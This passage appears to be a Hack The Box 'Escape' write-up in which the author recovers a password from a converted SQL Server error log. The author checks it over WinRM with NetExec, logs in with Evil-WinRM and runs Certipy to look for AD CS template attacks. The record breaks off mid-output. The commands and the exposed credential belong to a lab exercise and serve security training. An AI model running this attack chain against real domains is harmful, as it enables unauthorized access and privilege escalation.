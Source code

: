 The file does not open normally,the file is in windows utf16LE format we can convert it using iconv
Command 
```bash                 
┌──(captain㉿kali)-[~/Documents/HTB/escape/logs]                                                              
└─$ less ERRORLOG.BAK                                                                                         
"ERRORLOG.BAK" may be a binary file.  See it anyway?                                                          

┌──(captain㉿kali)-[~/Documents/HTB/escape/logs]                                                              
└─$ file ERRORLOG.BAK                                                                                         
ERRORLOG.BAK: Unicode text, UTF-16, little-endian text, with very long lines (508), with CRLF line terminators

┌──(captain㉿kali)-[~/Documents/HTB/escape/logs]                                                              
└─$ iconv -f utf16 -t utf8 ERRORLOG.BAK -o ERRORLOG.BAK.conv                                                                                                                                                                
                 
┌──(captain㉿kali)-[~/Documents/HTB/escape/logs]                                                              
└─$ ls                                                                                                        
ERRORLOG.BAK  ERRORLOG.BAK.conv
```

We find a suspicious login attemp from Ryan.Cooper user
```bash
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.72 spid51      Attempting to load library 'xpstar.dll' into memory. This is an informational message only. No user action is required.
```

We check if this is his password using NetExec
```nxc winrm 10.10.11.202 -u ryan.cooper -p 'NuclearMosquito3'```
and we get a hit, we can now login as user Ryan using Evil-Winrm, and grab the user.txt

Since WinPeas and Bloodhound did not give us any results, we can try Certipy to check for ADCS template attacks
Installing Certipy using ```pip3 install certipy-ad``` 

Running it 
```bash
┌──(captain㉿kali)-[~/Documents/HTB/escape]
└─$ certipy-ad find -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -target-ip 10.10.11.202
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
```